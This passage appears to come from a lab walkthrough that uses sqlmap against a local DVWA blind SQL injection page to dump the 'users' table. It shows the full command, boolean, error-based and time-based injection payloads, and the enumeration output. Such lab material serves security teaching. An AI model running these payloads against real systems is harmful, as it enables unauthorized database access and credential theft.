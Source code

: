     [10:38:55] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/127.0.0.1'

    [*] ending @ 10:38:55 /2023-12-14/
    ```

3. In just 1 second(!) we managed to found out the there are two tables: `guestbook` and `users`. Now all we have to do is to extract information from the `users` table (`-T users`). We also added the `--dump` option which instructs SQLMap to dump the DBMS database table entries so we can directly see the table's content:

    ```shell
    $ sqlmap --url="http://127.0.0.1:42001/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=tnusaaspju33gd737338bcnhrl; security=low" --data="id=1&Submit=Submit" -p id -T users --batch --threads 5 --dump
            ___
        __H__
    ___ ___[']_____ ___ ___  {1.7.12#stable}
    |_ -| . [(]     | .'| . |
    |___|_  [']_|_|_|__,|  _|
        |_|V...       |_|   https://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting @ 10:42:51 /2023-12-14/

    [10:42:51] [INFO] resuming back-end DBMS 'mysql'
    [10:42:51] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: id=1' AND 2879=2879 AND 'FGUV'='FGUV&Submit=Submit

        Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: id=1' AND (SELECT 5082 FROM(SELECT COUNT(*),CONCAT(0x716b627071,(SELECT (ELT(5082=5082,1))),0x717a716a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'VSXt'='VSXt&Submit=Submit

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 9523 FROM (SELECT(SLEEP(5)))RuBI) AND 'DZYn'='DZYn&Submit=Submit
    ---
    [10:42:51] [INFO] the back-end DBMS is MySQL
    web application technology: Nginx 1.24.0
    back-end DBMS: MySQL >= 5.0 (MariaDB fork)
    [10:42:51] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
    [10:42:51] [INFO] fetching current database
    [10:42:51] [INFO] retrieved: 'dvwa'
    [10:42:51] [INFO] fetching columns for table 'users' in database 'dvwa'
    [10:42:51] [INFO] starting 5 threads
    [10:42:51] [INFO] retrieved: 'user_id'
    [10:42:51] [INFO] retrieved: 'first_name'
    [10:42:52] [INFO] retrieved: 'last_name'
    [10:42:52] [INFO] retrieved: 'password'
    [10:42:52] [INFO] retrieved: 'int(6)'
    [10:42:52] [INFO] retrieved: 'user'
    [10:42:52] [INFO] retrieved: 'varchar(15)'
    [10:42:52] [INFO] retrieved: 'varchar(15)'